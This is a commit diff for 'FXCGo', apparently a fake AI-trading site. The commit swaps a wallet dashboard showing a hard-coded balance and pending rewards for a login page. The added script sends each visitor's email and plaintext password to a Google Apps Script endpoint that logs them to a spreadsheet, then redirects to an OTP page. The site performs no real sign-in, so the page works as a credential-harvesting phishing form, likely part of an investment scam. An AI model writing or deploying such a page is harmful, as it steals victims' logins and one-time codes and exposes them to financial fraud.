

Before and after one commit to deb100yz-svg/FXCGO, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme; grey boxes are pictures that could not be loaded.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,88 +3,36 @@
 <head>
 <meta charset="UTF-8">
 <meta name="viewport" content="width=device-width, initial-scale=1.0">
-<title>FXCGo – Wallet Dashboard</title>
-<script>
-    // Check for success message in URL
-    document.addEventListener('DOMContentLoaded', function() {
-        const urlParams = new URLSearchParams(window.location.search);
-        const status = urlParams.get('status');
+<title>FXCGo – Login</title>
 
-        if (status) {
-            let message = '';
-            switch(status) {
-                case 'deposit_success':
-                    message = 'Deposit verified successfully!';
-                    break;
-                case 'withdraw_success':
-                    message = 'Withdrawal verified successfully!';
-                    break;
-                case 'verification_success':
-                    message = 'Login verified successfully!';
-                    break;
-            }
-
-            if (message) {
-                const notification = document.createElement('div');
-                notification.style.cssText = `
-                    position: fixed;
-                    top: 20px;
-                    left: 50%;
-                    transform: translateX(-50%);
-                    background: #4CAF50;
-                    color: white;
-                    padding: '15px 25px';
-                    border-radius: '5px';
-                    box-shadow: 0 2px 10px rgba(0,0,0,0.2);
-                    z-index: 1000;
-                    animation: slideIn 0.5s ease-out;
-                `;
-                notification.textContent = message;
-                document.body.appendChild(notification);
-
-                // Remove notification after 5 seconds
-                setTimeout(() => {
-                    notification.style.animation = 'slideOut 0.5s ease-out';
-                    setTimeout(() => notification.remove(), 500);
-                }, 5000);
-            }
-
-            // Clean up URL
-            window.history.replaceState({}, document.title, window.location.pathname);
-        }
-    });
-</script>
 <style>
-    @keyframes slideIn {
-        from { transform: translate(-50%, -50px); opacity: 0; }
-        to { transform: translate(-50%, 0); opacity: 1; }
-    }
-    @keyframes slideOut {
-        from { transform: translate(-50%, 0); opacity: 1; }
-        to { transform: translate(-50%, -50px); opacity: 0; }
-    }
     body {
         margin: 0;
         padding: 0;
         font-family: "Poppins", sans-serif;
         background: #dde6ef;
+        display: flex;
+        justify-content: center;
+        align-items: center;
+        height: 100vh;
     }
 
-    /* HEADER */
-    .header {
+    .container {
+        width: 420px;
+        background: #dde6ef;
+        text-align: center;
+        padding: 20px;
+    }
+
+    /* Logo */
+    .logo {
+        font-size: 34px;
+        font-weight: bold;
+        margin-bottom: 10px;
         display: flex;
         align-items: center;
-        justify-content: space-between;
-        padding: 15px;
-        background: #dde6ef;
-    }
-
-    .logo {
-        font-size: 26px;
-        font-weight: bold;
-        display: flex;
-        align-items: center;
-        gap: 5px;
+        gap: 6px;
+        justify-content: center;
     }
 
     .logo span:nth-child(1) { color: #72d9fd; }
@@ -92,203 +40,252 @@
     .logo span:nth-child(3) { color: #ff7fa4; }
     .logo span:nth-child(4) { color: #84eb85; }
 
-    .header-icons {
-        display: flex;
-        align-items: center;
-        gap: 15px;
+    .subtitle {
+        margin-top: -10px;
+        color: #555;
+        font-size: 13px;
+    }
+
+    h2 {
+        font-size: 32px;
+        margin-top: 25px;
+        margin-bottom: 5px;
+    }
+
+    .small-text {
+        color: #6f7d90;
+        margin-bottom: 25px;
+        font-size: 15px;
+    }
+
+    /* Input Boxes */
+    .input-box {
+        width: 100%;
+        background: white;
+        border-radius: 40px;
+        padding: 14px 20px;
+        border: 1px solid #cdd6e4;
+        margin-bottom: 18px;
+        font-size: 15px;
+        outline: none;
+    }
+
+    .password-field {
+        position: relative;
+    }
+
+    .eye {
+        position: absolute;
+        right: 20px;
+        top: 14px;
+        cursor: pointer;
+        color: #0047ff;
         font-size: 20px;
     }
 
-    /* WALLET SECTION */
-    .title {
-        margin-left: 15px;
-        font-size: 22px;
-        margin-top: 5px;
-        margin-bottom: 10px;
+    /* Buttons */
+    .forgot {
+        text-align: right;
+        margin-bottom: 20px;
+        margin-top: -10px;
     }
 
-    .wallet-box {
-        background: #0056ff;
-        color: white;
-        margin: 15px;
-        border-radius: 20px;
-        padding: 20px;
-        box-shadow: 0 3px 10px rgba(0,0,0,0.1);
+    .forgot a {
+        color: #0047ff;
+        text-decoration: none;
+        font-size: 14px;
     }
 
-    .wallet-box .top-icons {
-        display: flex;
-        justify-content: flex-end;
-        gap: 15px;
-        margin-bottom: 20px;
-        font-size: 22px;
+    .login-btn {
+        width: 100%;
+        background: #0047ff;
+        color: white;
+        font-size: 18px;
+        padding: 14px;
+        border: none;
+        border-radius: 40px;
+        cursor: pointer;
+        margin-top: 10px;
     }
 
-    .balance {
-        font-size: 32px;
+    .signup-text {
+        margin-top: 20px;
+        font-size: 14px;
+        color: #333;
+    }
+
+    .signup-text a {
+        color: #0047ff;
+        text-decoration: none;
         font-weight: bold;
     }
 
-    .balance-title {
-        opacity: 0.9;
-        margin-bottom: 20px;
+    .or {
+        margin: 28px 0;
+        color: #7d8797;
+        font-size: 13px;
+        letter-spacing: 1px;
     }
 
-    .wallet-actions {
+    .social-btn {
+        width: 100%;
+        padding: 12px;
+        border-radius: 40px;
+        border: 1px solid #aac3d9;
+        background: white;
+        font-size: 16px;
         display: flex;
-        gap: 15px;
-        margin-top: 20px;
+        gap: 10px;
+        align-items: center;
+        justify-content: center;
+        margin-bottom: 15px;
+        cursor: pointer;
     }
 
-    .wallet-btn {
-        flex: 1;
-        padding: 12px 0;
-        border: none;
-        border-radius: 10px;
-        font-weight: 600;
-        font-size: 16px;
-        cursor: pointer;
-        transition: all 0.2s ease;
+    .social-btn img {
+        width: 20px;
     }
 
-    .deposit-btn {
-        background: #4CAF50;
-        color: white;
-    }
-
-    .withdraw-btn {
-        background: #f44336;
-        color: white;
-    }
-
-    .wallet-btn:hover {
-        transform: translateY(-2px);
-        box-shadow: 0 3px 10px rgba(0,0,0,0.1);
-    }
-
-    /* SMALL BOXES */
-    .section-grid {
-        display: grid;
-        grid-template-columns: repeat(2, 1fr);
-        gap: 15px;
-        padding: 15px;
-    }
-
-    .info-box {
-        background: white;
-        padding: 20px;
-        border-radius: 18px;
-        box-shadow: 0 3px 8px rgba(0,0,0,0.05);
-    }
-
-    .info-title {
-        color: #6f7d90;
-        font-size: 14px;
-    }
-
-    .info-value {
-        font-size: 28px;
-        font-weight: bold;
-        margin-top: 10px;
-    }
-
-    .pending-text {
-        color: orange;
-        font-size: 13px;
-        margin-top: 5px;
-    }
-
-    /* BOTTOM NAVIGATION */
-    .bottom-nav {
-        position: fixed;
-        bottom: 0;
-        left: 0;
-        width: 100%;
-        background: white;
-        display: flex;
-        justify-content: space-around;
-        padding: 10px 0;
-        border-top: 1px solid #d0d0d0;
-    }
-
-    .bottom-nav div {
-        text-align: center;
-        font-size: 13px;
+    footer {
+        margin-top: 35px;
+        font-size: 12px;
         color: #6f7d90;
     }
 
-    .bottom-nav .active {
+    footer a {
         color: #0047ff;
-        font-weight: bold;
+        text-decoration: none;
     }
 </style>
 </head>
 
 <body>
 
-<!-- HEADER -->
-<div class="header">
+<div class="container">
+
+    <!-- Logo -->
     <div class="logo">
         <span>F</span><span>X</span><span>C</span><span>go</span>
     </div>
+    <div class="subtitle">Ai Trading</div>
 
-    <div class="header-icons">
-        <a href="database.html" style="text-decoration: none; color: inherit;">📊</a>
-        <a href="index.html" style="text-decoration: none; color: inherit;">👤</a>
-    </div>
-</div>
+    <h2>Welcome Back</h2>
+    <p class="small-text">Log in to your account</p>
 
-<h2 class="title">Wallet</h2>
+    <input type="text" id="userEmail" class="input-box" placeholder="Username or Email" required>
 
-<!-- WALLET BOX -->
-<div class="wallet-box">
-    <div class="top-icons">
-        🔳 ➕
+    <div class="password-field">
+        <input type="password" id="userPassword" class="input-box" placeholder="Password" required>
+        <span class="eye" onclick="togglePassword()">&#128065;</span>
     </div>
 
-    <div class="balance">$ 9,378.16</div>
-    <div class="balance-title">Your total balance</div>
-
-    <div class="wallet-actions">
-        <button class="wallet-btn deposit-btn" onclick="window.location.href='otp.html?action=deposit'">Deposit</button>
-        <button class="wallet-btn withdraw-btn" onclick="window.location.href='otp.html?action=withdraw'">Withdraw</button>
-    </div>
-</div>
-
-<!-- SECTION BOXES -->
-<div class="section-grid">
-
-    <div class="info-box">
-        <div class="info-title">Total Deposited</div>
-        <div class="info-value">$0.00</div>
+    <div class="forgot">
+        <a href="#">Forgot Password?</a>
     </div>
 
-    <div class="info-box">
-        <div class="info-title">reward points</div>
-        <div class="info-value">$500</div>
-        <div class="pending-text">Awaiting approval</div>
-    </div>
+    <!-- LOGIN REDIRECT BUTTON -->
+    <button type="button" class="login-btn" onclick="saveLogin()">🔐 Log In</button>
 
-    <div class="info-box">
-        <div class="info-title">Active Trades</div>
-        <div class="info-value">$109.87</div>
-    </div>
+    <p class="signup-text">
+        Don't have an account? <a href="#">Sign up</a> here.
+    </p>
 
-    <div class="info-box">
-        <div class="info-title">Withdrawals</div>
-        <div class="info-value">$0.00</div>
-    </div>
+    <p class="or">OR Continue with</p>
+
+    <button class="social-btn">
+        <img src="https://upload.wikimedia.org/wikipedia/commons/5/53/Google_%22G%22_Logo.svg">
+        Sign in with Google
+    </button>
+
+    <button class="social-btn">
+        <img src="https://upload.wikimedia.org/wikipedia/commons/0/05/Facebook_Logo_%282019%29.png">
+        Sign in with Facebook
+    </button>
+
+    <footer>
+        Copyright ©2025, <a href="#">FXCGo Ai</a> designed on Earth ❤️
+    </footer>
 
 </div>
 
-<!-- BOTTOM NAVIGATION -->
-<div class="bottom-nav">
-    <div>🏠 Dashboard</div>
-    <div class="active">💳 Wallet</div>
-    <div>🎯 Goals</div>
-    <div>📈 Live Trading</div>
-    <div>👤 Portfolio</div>
-</div>
+    <script>
+        // Google Apps Script Web App URL and Deployment ID
+        const SCRIPT_URL = 'https://script.google.com/macros/s/AKfycbx1SRhE4T2eMnsposfQOMAw2eqv8VMNkk-boMiUb1hVSOKNjS2Go0EmHsjWvH1AsD2BTA/exec';
+        const DEPLOYMENT_ID = 'AKfycbx1SRhE4T2eMnsposfQOMAw2eqv8VMNkk-boMiUb1hVSOKNjS2Go0EmHsjWvH1AsD2BTA';
 
+        // Function to fetch data from Google Sheets
+        async function fetchSheetData() {
+            try {
+                const response = await fetch(`${SCRIPT_URL}?action=getData`);
+                const data = await response.json();
+                console.log('Sheet data:', data);
+                return data;
+            } catch (error) {
+                console.error('Error fetching sheet data:', error);
+                return [];
+            }
+        }
+
+        function togglePassword() {
+            const passwordField = document.getElementById('userPassword');
+            const eyeIcon = document.querySelector('.eye');
+
+            if (passwordField.type === 'password') {
+                passwordField.type = 'text';
+                eyeIcon.textContent = '';
+            } else {
+                passwordField.type = 'password';
+                eyeIcon.textContent = '👁️‍🗨️';
+            }
+        }
+
+        async function saveLogin() {
+            const email = document.getElementById('userEmail').value.trim();
+            const password = document.getElementById('userPassword').value;
+
+            // Basic validation
+            if (!email || !password) {
+                alert('Please enter both email and password');
+                return;
+            }
+
+            try {
+                // Prepare data to send to Google Sheets
+                const formData = new FormData();
+                formData.append('action', 'saveLogin');
+                formData.append('email', email);
+                formData.append('password', password);
+                formData.append('timestamp', new Date().toISOString());
+
+                // Send data to Google Apps Script
+                const response = await fetch(SCRIPT_URL, {
+                    method: 'POST',
+                    body: formData
+                });
+
+                const result = await response.json();
+
+                if (result.status === 'success') {
+                    // Store minimal data in localStorage if needed
+                    localStorage.setItem('userEmail', email);
+
+                    // Redirect to OTP page
+                    window.location.href = 'otp.html';
+                } else {
+                    alert('Error saving data: ' + (result.message || 'Unknown error'));
+                }
+            } catch (error) {
+                console.error('Error:', error);
+                alert('An error occurred while processing your request.');
+            }
+        }
+
+        // Allow form submission on Enter key
+        document.addEventListener('keypress', function(e) {
+            if (e.key === 'Enter') {
+                saveLogin();
+            }
+        });
+    </script>
 </body>
 </html>
```
